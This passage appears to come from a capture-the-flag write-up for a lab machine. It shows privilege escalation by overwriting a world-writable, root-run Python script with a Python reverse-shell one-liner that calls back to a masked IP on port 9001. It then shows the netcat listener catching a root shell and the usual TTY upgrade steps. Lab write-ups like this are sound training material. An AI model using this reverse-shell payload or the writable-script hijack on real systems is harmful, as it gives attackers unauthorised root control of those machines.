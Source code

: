 ```bash
kidman@evilwithin:/var$ cat .the_eye_of_ruvik.py
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)
```

```bash
kidman@evilwithin:/home/kidman$ echo -n 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xxx.xx.xx",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /var/.the_eye_of_ruvik.py
```

```bash
kidman@evilwithin:/home/kidman$ ls /var
backups  cache  crash  ftp  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

```bash
kidman@evilwithin:/home/kidman$ ls -lah /var
total 64K
drwxr-xr-x 15 root root   4.0K Jul 22  2020 .
drwxr-xr-x 23 root root   4.0K Jul 14  2020 ..
drwxr-xr-x  2 root root   4.0K Aug 13  2020 backups
drwxr-xr-x  9 root root   4.0K Jul 14  2020 cache
drwxrwxrwt  2 root root   4.0K Aug 14  2020 crash
drwxr-xr-x  2 root root   4.0K Aug 13  2020 ftp
drwxr-xr-x 42 root root   4.0K Jul 14  2020 lib
drwxrwsr-x  2 root staff  4.0K Jul 14  2020 local
lrwxrwxrwx  1 root root      9 Jul  7  2020 lock -> /run/lock
drwxrwxr-x 10 root syslog 4.0K Jul 14  2020 log
drwxrwsr-x  2 root mail   4.0K Jul 14  2020 mail
drwxr-xr-x  2 root root   4.0K Jul 14  2020 opt
lrwxrwxrwx  1 root root      4 Jul  7  2020 run -> /run
drwxr-xr-x  2 root root   4.0K Jul 14  2020 snap
drwxr-xr-x  4 root root   4.0K Jul 14  2020 spool
-rwxr-xrw-  1 root root    207 Sep  5 21:57 .the_eye_of_ruvik.py
drwxrwxrwt 11 root root   4.0K Sep  5 20:43 tmp
drwxr-xr-x  3 root root   4.0K Jul 14  2020 www
```

```bash
kidman@evilwithin:/home/kidman$ cat /var/.the_eye_of_ruvik.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xxx.xx.xx",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")kidman@evilwithin:/home/kidman$ 
```

```bash
:~/helpme# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on xx.xxx.xx.xx 53848
# python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@evilwithin:~# ^Z
[1]+  Stopped                 nc -nlvp 9001
:~/helpme# stty raw -echo; fg
nc -nlvp 9001

root@evilwithin:~# export TERM=xterm
```
